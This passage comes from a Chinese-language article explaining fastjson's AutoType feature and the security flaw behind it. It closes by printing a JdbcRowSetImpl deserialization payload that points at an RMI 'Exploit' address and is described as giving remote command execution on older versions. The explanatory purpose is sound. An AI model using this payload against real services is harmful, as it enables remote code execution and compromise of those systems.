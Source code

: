 
以上现象，我们知道，**当一个类中包含了一个接口（或抽象类）的时候，在使用fastjson进行序列化的时候，会将子类型抹去，只保留接口（抽象类）的类型，使得反序列化时无法拿到原始类型。**

那么有什么办法解决这个问题呢，fastjson引入了AutoType，即在序列化的时候，把原始类型记录下来。

使用方法是通过`SerializerFeature.WriteClassName`进行标记，即将上述代码中的

```java
String jsonString = JSON.toJSONString(store);
```
    

修改成：

```java
String jsonString = JSON.toJSONString(store,SerializerFeature.WriteClassName);
```
    

即可，以上代码，输出结果如下：

    System.out.println("toJSONString : " + jsonString);
    
    {
        "@type":"com.hollis.lab.fastjson.test.Store",
        "fruit":{
            "@type":"com.hollis.lab.fastjson.test.Apple",
            "price":0.5
        },
        "name":"Hollis"
    }
    

可以看到，**使用`SerializerFeature.WriteClassName`进行标记后，JSON字符串中多出了一个`@type`字段，标注了类对应的原始类型，方便在反序列化的时候定位到具体类型**

如上，将序列化后的字符串在反序列化，既可以顺利的拿到一个Apple类型，整体输出内容：

    toJSONString : {"@type":"com.hollis.lab.fastjson.test.Store","fruit":{"@type":"com.hollis.lab.fastjson.test.Apple","price":0.5},"name":"Hollis"}
    parseObject : Store{name='Hollis', fruit=Apple{price=0.5}}
    getFruit : Apple{price=0.5}
    

这就是AutoType，以及fastjson中引入AutoType的原因。

但是，也正是这个特性，因为在功能设计之初在安全方面考虑的不够周全，也给后续fastjson使用者带来了无尽的痛苦

### AutoType 何错之有？

因为有了autoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取`@type`到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。

那么就可以利用这个特性，自己构造一个JSON字符串，并且使用`@type`指定一个自己想要使用的攻击类库。

举个例子，黑客比较常用的攻击类库是`com.sun.rowset.JdbcRowSetImpl`，这是sun官方提供的一个类库，这个类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

而fastjson在反序列化时会调用目标类的setter方法，那么如果黑客在JdbcRowSetImpl的dataSourceName中设置了一个想要执行的命令，那么就会导致很严重的后果。

如通过以下方式定一个JSON串，即可实现远程命令执行（在早期版本中，新版本中JdbcRowSetImpl已经被加了黑名单）

    {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
    